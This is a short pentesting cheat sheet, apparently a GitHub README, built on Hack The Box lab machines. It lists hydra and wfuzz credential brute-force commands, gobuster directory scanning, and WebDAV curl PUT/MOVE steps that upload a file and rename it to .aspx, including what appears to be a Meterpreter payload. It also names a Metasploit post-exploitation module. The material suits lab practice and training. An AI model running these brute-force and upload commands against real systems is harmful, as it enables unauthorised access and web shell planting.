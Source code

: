 # web-payload  
Portal for any payload  
## Brute force web application 
### Basic Authentication  
`hydra -L usernames -P passwords -s 8080 -f <domain> http-get /`  
`wfuzz -u http://ethereal.htb:8080 --basic alan:FUZZ -w passwords.txt`  
***to enumerate every subdoamin there has to be an entry for that subdomain in /etc/hosts that points to the ip of the box , that’s why I added the HOST HTTP header (-H "HOST:FUZZ.redcross.htb") , it solves the problem.***  
## Directory Bruteforcing
`gobuster -w <Wordlist> -u http://10.10.10.15 -t 50 -x aspx,txt,html`  
## Brute force with wfuzz  
`wfuzz -c --hh 11 -u "https://intra.redcross.htb/pages/actions.php" -X POST -d "user=FUZZ&pass=FUZZ&action=login" -w top-usernames-shortlist.txt`  
## WebDav
`davtest -url http://<IP>`  
### Manual  
```
echo 0xdf > test.txt  
root@kali# curl -X PUT http://10.10.10.15/df.txt -d @test.txt  
root@kali# curl http://10.10.10.15/df.txt  
```
or  
  
`curl -X PUT http://10.10.10.15/df.aspx -d @test.txt`  
  
### Manual for MOVE Method  
```
curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt  
curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 
```
  
## Metasploit post exploitation
`post/multi/recon/local_exploit_suggester`  
